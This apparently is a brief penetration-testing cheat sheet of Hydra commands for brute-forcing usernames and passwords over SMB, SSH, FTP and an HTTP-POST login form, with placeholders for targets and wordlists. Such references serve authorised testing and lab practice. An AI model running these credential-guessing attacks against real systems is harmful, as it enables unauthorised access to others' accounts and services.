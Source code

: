 # Brute force passwords over SMB
```sh
hydra -l [user] -P [path_to_passwords] smb://[ip]
```

# Brute force passwords over SSH
```sh
hydra -L [path_to_usernames] -P [/usr/share/wordlists/fasttrack.txt] ssh://[ip]
```

# Brute force usernames and passwords over FTP
```sh
hydra -L [path_to_usernames] -P [path_to_passwords] -u -e snr -s [port] [ip] ftp
```

# Brute force usernames and passwords over HTTP-POST-FORM
```sh
hydra -L [path_to_usernames] -P [path_to_passwords] -s [port] [ip] http-post-form "/login.php:Username=^USER^&Password=^PASS^&Submit=Login:Incorrect information"
# "page:payload:error"
```
